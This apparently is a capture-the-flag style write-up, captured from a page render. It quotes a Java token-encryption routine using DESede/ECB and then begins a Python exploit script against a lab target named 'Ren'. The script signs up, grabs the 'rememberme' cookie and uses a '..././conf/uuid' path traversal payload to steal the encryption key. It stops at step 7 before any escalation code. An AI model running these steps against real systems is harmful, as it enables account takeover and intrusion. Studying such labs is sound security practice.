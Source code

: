 ```java
public static String encryptToken(String user, String token, String uuid) {
    try {
        SecretKey key = getKeyForUser(user, uuid);  // generate the encryption key
        Cipher cipher = Cipher.getInstance("DESede/ECB/PKCS5Padding");
        cipher.init(Cipher.ENCRYPT_MODE, key);  // initialize the cipher for encryption
        byte[] enc = cipher.doFinal(token.getBytes("UTF-8"));  // encrypt the token
        return Base64.getUrlEncoder().encodeToString(enc);  // return the base64-encoded encrypted token
    } catch (Exception e) {
        e.printStackTrace();
        return "";
    }
}
```

here are the complete exploits for both Ren + Stimpy!

# Ren

goal: get admin access + execute RCE, using path traversal, token manipulation, and SQL injection.

```python
import requests
import time
import string
import subprocess
import base64
import random
import sys

# step 1: set up my IP and target URL
my_ip = sys.argv[1]  # attacker IP address is passed as an argument
target = 'http://<IP>'     # target application URL

# step 2: generate random username + email
username = ''.join(random.choice(string.ascii_lowercase) for c in range(3))
email = username + '@ren.local'  # email with the generated username

# step 3: initialize session and get main page
session = requests.Session()
session.get(target + '/')  # target's homepage

# step 4: create an account on the target application
session.post(target + '/signup', data={
    'submit': 'Submit',
    'email': email,
    'password': 'L0r3m1p$uM',
    'username': username
})

# step 5: log in and capture the 'rememberme' session token
session.post(target + '/login', data={
    'submit': 'Submit',
    'username': username,
    'password': 'L0r3m1p$uM',
    'rememberme': True  # remember me token is stored in the session
})
myuser_token = session.cookies.get_dict()["rememberme"]  # extract the rememberme token

# step 6: exploit path traversal vulnerability to retrieve UUID
uuid = session.get(target + '/download?id=..././conf/uuid').text  # UUID is the encryption key

# step 7: decrypt the token, modify it to escalate privileges, and re-encrypt
```